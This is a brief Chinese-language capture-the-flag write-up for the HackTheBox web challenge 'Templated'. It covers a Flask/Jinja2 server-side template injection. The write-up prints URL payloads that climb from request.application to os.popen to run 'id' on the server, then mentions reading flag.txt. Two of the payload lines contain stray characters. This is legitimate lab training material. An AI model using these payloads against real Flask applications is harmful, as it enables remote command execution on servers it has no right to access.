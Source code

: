 ```yaml
---
title: Templated - HACKTHEBOX Challeges Web
tags: ctf
---
```


flask/jinja2 SSTI模板注入

```http
http://IP:PORT/{{config>}}
http://IP:PORT/{{request.application>.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

执行`id`的poc

```http

http://IP:PORT/{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

```

然后就是查看目录，查看flag.txt内容
